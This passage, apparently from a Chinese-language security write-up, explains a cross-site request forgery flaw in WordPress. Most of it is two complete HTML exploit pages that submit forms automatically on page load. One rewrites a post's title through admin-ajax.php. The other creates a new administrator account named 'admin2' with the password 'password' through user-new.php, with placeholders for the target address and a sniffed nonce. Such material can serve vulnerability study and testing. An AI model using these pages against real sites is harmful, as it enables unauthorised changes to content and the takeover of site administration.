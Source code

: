 那么这个漏洞实际上就是攻击者引导用户先进入目标的 WordPress，然后点击其钓鱼站点上的某个按钮，该按钮实际上是表单提交按钮，其会触发表单的提交工作，核心的 Exploit 代码为 :

```html
 <html>
  <body onload="javascript:document.forms[0].submit()">
    <h2>CSRF Exploit to change post title</h2>
    <form method="POST" name="form0" action="http://<wordpress_ip>:80/wp-admin/admin-ajax.php">
      <input type="hidden" name="post_title" value="hackedtitle"/>
      <input type="hidden" name="post_name" value="hackedtitle"/>
      <input type="hidden" name="mm" value="03"/>
      <input type="hidden" name="jj" value="16"/>
      <input type="hidden" name="aa" value="2012"/>
      <input type="hidden" name="hh" value=""/>
      <input type="hidden" name="mn" value=""/>
      <input type="hidden" name="ss" value=""/>
      <input type="hidden" name="post_author" value="1"/>
      <input type="hidden" name="post_password" value=""/>
      <input type="hidden" name="post_category%5B%5D" value="0"/>
      <input type="hidden" name="post_category%5B%5D" value="1"/>
      <input type="hidden" name="tax_input%5Bpost_tag%5D" value=""/>
      <input type="hidden" name="comment_status" value="open"/>
      <input type="hidden" name="ping_status" value="open"/>
      <input type="hidden" name="_status" value="publish"/>
      <input type="hidden" name="post_format" value="0"/>
      <input type="hidden" name="_inline_edit" value="<sniffed_value>"/>
      <input type="hidden" name="post_view" value="list"/>
      <input type="hidden" name="screen" value="edit-post"/>
      <input type="hidden" name="action" value="inline-save"/>
      <input type="hidden" name="post_type" value="post"/>
      <input type="hidden" name="post_ID" value="1"/>
      <input type="hidden" name="edit_date" value="true"/>
      <input type="hidden" name="post_status" value="all"/>
    </form>
  </body>
 </html>
```

另一个测试用例时添加某个具有管理员权限的用户，测试用例为 :

```html
 <html>
 <body onload="javascript:document.forms[0].submit()">
 <H2>CSRF Exploit to add Administrator</H2>
 <form method="POST" name="form0" action="http://<wordpress_ip>:80/wp-admin/user-new.php">
 <input type="hidden" name="action" value="createuser"/>
 <input type="hidden" name="_wpnonce_create-user" value="<sniffed_value>"/>
 <input type="hidden" name="_wp_http_referer" value="%2Fwordpress%2Fwp-admin%2Fuser-new.php"/>
 <input type="hidden" name="user_login" value="admin2"/>
 <input type="hidden" name="email" value="admin2@admin.com"/>
 <input type="hidden" name="first_name" value="admin2@admin.com"/>
 <input type="hidden" name="last_name" value=""/>
 <input type="hidden" name="url" value=""/>
 <input type="hidden" name="pass1" value="password"/>
 <input type="hidden" name="pass2" value="password"/>
 <input type="hidden" name="role" value="administrator"/>
 <input type="hidden" name="createuser" value="Add+New+User+"/>
 </form>
 </body>
 </html>
```
